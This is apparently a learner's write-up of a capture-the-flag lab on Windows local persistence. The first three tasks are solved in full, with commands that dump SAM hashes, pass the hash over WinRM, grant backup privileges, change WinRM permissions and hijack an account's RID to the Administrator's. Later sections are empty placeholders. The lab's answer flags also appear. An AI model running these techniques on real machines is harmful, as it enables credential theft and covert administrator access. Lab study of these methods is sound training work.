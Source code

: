 # Windows Local Persistence

### Tampering With Unprivileged Accounts
- Insert flag1 here<br />
We can check that the server has WinRM enabled with the command `Test-WSMan`. <br />
First, add thmuser1 to the backup group: `net localgroup "Backup Operators" thmuser1 /add`, and to the winRM group: `net localgroup "Remote Management Users" thmuser1 /add` Now, we need to disable LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. To do that, run `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`. Now we can download password hashes: 

      reg save hklm\system system.bak
      reg save hklm\sam sam.bak
      download system.bak
      download sam.bak
  
And dump them:

      python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Then, we perform a pass-the-hash attack: `evil-winrm -i 10.10.62.15 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3`. <br /> Flag is `THM{FLAG_BACKED_UP!}`
- Insert flag2 here<br />
Run `secedit /export /cfg config.inf` to export the configuration file, then open it and edit it by adding our user to the SeBackupPrivilege and SeRestorePrivilege lines: <br />
![image](https://github.com/user-attachments/assets/fa5d5842-8547-4594-89a2-3e218ce924b2)<br />
Now load the configuration back into the system:

      secedit /import /cfg config.inf /db config.sdb
      
      secedit /configure /db config.sdb /cfg config.inf
However, the user still can't log over winRM because it is not in the "Remote Management Users" group.  Instead of adding the user to the Remote Management Users group, we'll change the **security descriptor** associated with the WinRM service to allow thmuser2 to connect. So, run `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` on powershell: <br />
![image](https://github.com/user-attachments/assets/a7c6d479-ed38-4560-a179-8fd3d6132b63)<br />
We can now log in the account from our attackbox whenever we want: <br />
![image](https://github.com/user-attachments/assets/ad1387a5-522f-4272-8056-899db8a941dd)<br />
`THM{IM_JUST_A_NORMAL_USER}`

- Insert flag3 here<br />
The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec: `.\PsExec64.exe -i -s regedit`<br />
Go to HKLM\SAM\SAM\Domains\Account\Users\, and click on 0x3F2, which is the hexadecimal value for 1010(thmuser3 RID).<br />
From there, the value "F" holds the user RID<br />
![image](https://github.com/user-attachments/assets/a2827e8c-f267-40c2-828e-843f93698cda)<br />
Notice that the RID is stored in little endian. The hexadecimal for 500 is 0x1F4, so we will substitute thmuser3's RID with F4 01. Now, as described in the task, log in thmuser3 via RDP: `xfreerdp /u:thmuser3 /p:Password321 /v:10.10.62.15`. Finally, get the flag: <br />
![image](https://github.com/user-attachments/assets/1ad110d7-35a3-4282-abcc-588f2e9f763f)<br />
`THM{TRUST_ME_IM_AN_ADMIN}`

### Backdooring Files
- Insert flag5 here <br />

By the way, WHERE THE HELL IS FLAG 4!?
- Insert flag6 here

### Abusing Services
- Insert flag7 here
- Insert flag8 here

### Abusing Scheduled Tasks 
- Insert flag9 here

### Logon Triggered Persistence
- Insert flag10 here
- Insert flag11 here
- Insert flag12 here
- Insert flag13 here

### Backdooring the Login Screen / RDP
- Insert flag14 here
- Insert flag15 here

### Persisting Through Existing Services
- Insert flag16 here
- Insert flag17 here

### 
